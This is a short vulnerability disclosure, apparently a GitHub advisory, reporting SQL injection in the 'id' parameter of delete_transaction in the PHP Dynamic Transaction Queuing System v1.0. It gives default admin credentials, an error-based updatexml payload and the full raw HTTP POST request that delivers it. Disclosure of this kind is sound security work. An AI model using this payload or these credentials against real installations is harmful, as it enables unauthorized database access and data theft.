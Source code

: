 # Dynamic Transaction Queuing System v1.0 by oretnom23 has SQL injection

Vulnerability Discoverer:  Yang Tao, TBLab of Venustech

Login account: admin/admin123 (Super Admin account)

vendors: https://www.sourcecodester.com/php/14479/dynamic-transaction-queuing-system-using-phpmysql-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File:  /queuing/admin/ajax.php?action=delete_transaction

Vulnerability location: /queuing/admin/ajax.php?action=delete_transaction, id

dbname =queuing_db

[+] Payload: id=1 and updatexml(1,concat(0x7e,(select database()),0x7e),0) // Leak place ---> id

```sql
POST /queuing/admin/ajax.php?action=delete_transaction HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=t4551shae3529036q2g0j8luub
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 66

id=1 and updatexml(1,concat(0x7e,(select database()),0x7e),0)
```

![image](https://user-images.githubusercontent.com/54017627/200096742-13382c4f-33a5-4d0d-92aa-62a129b4f4a4.png)
